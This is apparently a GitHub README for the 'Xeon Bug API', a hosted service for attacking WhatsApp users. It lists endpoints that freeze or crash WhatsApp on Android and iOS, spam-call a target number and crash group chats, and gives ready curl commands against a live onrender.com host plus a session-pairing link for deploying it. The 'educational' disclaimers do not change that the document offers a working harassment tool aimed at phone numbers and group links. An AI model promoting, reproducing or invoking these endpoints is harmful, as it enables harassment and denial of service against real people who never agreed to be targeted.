
# 🚀 Xeon Bug API

The **Xeon Bug API** is a powerful endpoint API developed by **[Dream Guy Xeon](https://github.com/DGXeon)** to exploit vulnerabilities in WhatsApp. This API provides endpoints that can:

- 🛑 Delay WhatsApp on Android devices.
- 🌋 Spam Call Users on WhatsApp.
- 🍎 Crash WhatsApp on iOS devices.
- 💥 Crash entire WhatsApp group chats.

> **⚠️ Warning:** This API is for educational purposes only. Misuse of this tool may result in serious legal consequences. Use responsibly.

---

## 🌟 Features

- 🔥 **Delay Android Devices**  
- 🕸️ **Spam Call Users**
- 🍏 **Crash iOS Devices**  
- 💬 **Crash Group Chats**

---

## 📌 Endpoints

### 1 **Delay Android WhatsApp**  
**Description:** Delay and crashes WhatsApp on Android devices.  
**Endpoint:**  
```bash
GET ${api_link}/freezeDroid?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 2 **Spam Call Users**  
**Description:** Spam call users on WhatsApp.  
**Endpoint:**  
```bash
GET ${api_link}/callSpam?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 3 **Crash iOS WhatsApp**  
**Description:** Crashes WhatsApp on iOS devices.  
**Endpoint:**  
```bash
GET ${api_link}/crashIos?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 4 **Crash Group Chats**  
**Description:** Crashes an entire WhatsApp group chat.  
**Endpoint:**  
```bash
GET ${api_link}/crashGroup?target=${grouplink}
```  
**Parameters:**  
| Key        | Type   | Description                              |
|------------|--------|------------------------------------------|
| `target`   | String | The WhatsApp group chat link to target.  |

---

# Setup For Deployment 👇

## 🎯 Generate Pair Code For Session
[![Xeon](https://repl.it/badge/github/quiec/whatsasena)](https://replit.com/@DGXeon/Xeon-PairCode)

## ⚠️ Disclaimer

**Note:**  
This API is designed strictly for educational and research purposes to highlight vulnerabilities in applications. Any unauthorized use to harm individuals, groups, or organizations is strictly prohibited. Ensure you comply with all applicable laws before using this API.

---

## 💻 Example Usage

```bash
# Delay Android WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/freezeDroid?target=1234567890"

# Spam Call User
curl -X GET "https://xeon-bug-api.onrender.com/callSpam?target=1234567890"

# Crash iOS WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/iosCrash?target=1234567890"

# Crash Group Chat
curl -X GET "https://xeon-bug-api.onrender.com/crashGroup?target=https://chat.whatsapp.com/exampleGroupLink"
```

---

### 👨‍💻 Developed By: **[Dream Guy Xeon](https://github.com/DGXeon)**

Enjoy bugging responsibly! ✨
